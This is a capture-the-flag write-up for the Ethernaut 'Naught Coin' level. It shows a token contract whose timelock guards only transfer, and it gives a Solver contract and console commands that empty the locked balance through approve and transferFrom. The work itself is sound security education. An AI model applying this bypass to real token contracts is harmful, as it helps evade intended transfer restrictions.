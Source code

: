 ![Naught Coin](/assets/img/BigLevel15.svg)

- [Challenge](#challenge)
- [Solution](#solution)
- [References](#references)
   
# Challenge

The level states:

> NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.
> 
> Things that might help
> 
> - The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
> - The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase

And presents us the following code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

contract NaughtCoin is ERC20 {
// string public constant name = 'NaughtCoin';
// string public constant symbol = '0x0';
// uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }
  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```

# Solution

As usual, we start by reading the code and interacting with the contract. The level states that we should reduce our token balance to 0.

We can run:

```javascript
await contract.balanceOf(player).then(v=>v.toString())
'1000000000000000000000000'
```

If we look at the contract's code, we see that it says `//uint public constant decimals = 18;` which means that we have to divide the previously retrieved value by $10^{18}$. Meaning that we have 1000000 Naught Coins.

Now, if we try to transfer them, the contract will not let us, as there is a modifier for the `transfer` function, named `lockTokens`...

If we have a look at that modifier's code, we will note that it won't let us transfer the tokens for 10 years! (As stated in the level's instructions).

So, what can we do? Let's look into the [ERC20.sol library from OpenZeppelin](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol) (note that Naught Coin extends from this library: `contract NaughtCoin is ERC20`). If we read the documentation of the ERC20 tokens, we will find that there are two ways to transfer tokens, one is the function `transfer` (which we already discarded as we would need to wait 10 years) and there also exists a function called `transferFrom`... Now, this function doesn't have any modifier, could we use it then?

According to the docs:
> **transferFrom(address sender, address recipient, uint256 amount) → bool**
> 
> Moves `amount` tokens from `sender` to `recipient` using the allowance mechanism. `amount` is then deducted from the caller’s allowance.

What's the allowance mechanism then?

> **allowance(address owner, address spender) → uint256**
> 
> Returns the remaining number of tokens that spender will be allowed to spend on behalf of owner through transferFrom. This is zero by default.
> 
> This value changes when `approve` or `transferFrom` are called.

And, what does approve do?

> **approve(address spender, uint256 amount) → bool**
>
> Sets amount as the allowance of spender over the caller’s tokens.

Then, to recap, there is a mechanism to allow another party to send tokens in our behalf, but in order for them to do it, they need our approval beforehand.

So let's write a contract that can transfer these tokens for us:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./NaughtCoin.sol";

contract Solver {
    NaughtCoin naughtCoin;

    constructor(address _naughtCoinAddress) {
        naughtCoin = NaughtCoin(_naughtCoinAddress);
    }

    function solve(address _from, uint256 _value) public {
        naughtCoin.transferFrom(_from, address(this), _value);
    }
}
```

Now, let's solve the challenge:

1. First of all, we, as owners of the tokens, need to approve the spender (the Solver contract) to transfer tokens from our balance: `contract.approve(SOLVER_ADDRESS, '1000000000000000000000000')
` 
2. Now we can run `solve(OUR_ADDRESS, 1000000000000000000000000)`. Which will run `transferFrom` from our balance into the Solver's balance.

Notice that this will leave the tokens unusable and untransferable as we haven't added any routine in the contract to transfer the tokens into another wallet.

If we now check the balance again:

```javascript
await contract.balanceOf(player).then(v=>v.toString())
'0'
```

So we did it!!! We solved the challenge!!!

![Well done](/assets/img/ethernaut_solved.png)

_Note:_ There exists another way to solve this level without having to code a contract. For this we need another account to transfer the tokens to.

```javascript
await contract.balanceOf(player).then(v=>v.toString())
'1000000000000000000000000'

contract.approve(player, '1000000000000000000000000')

contract.transferFrom(player, player_second_address, '1000000000000000000000000')

await contract.balanceOf(player).then(v=>v.toString())
'0'

await contract.balanceOf(player_second_address).then(v=>v.toString())
'1000000000000000000000000'
```

# References

- [SWC-105](https://swcregistry.io/docs/SWC-105)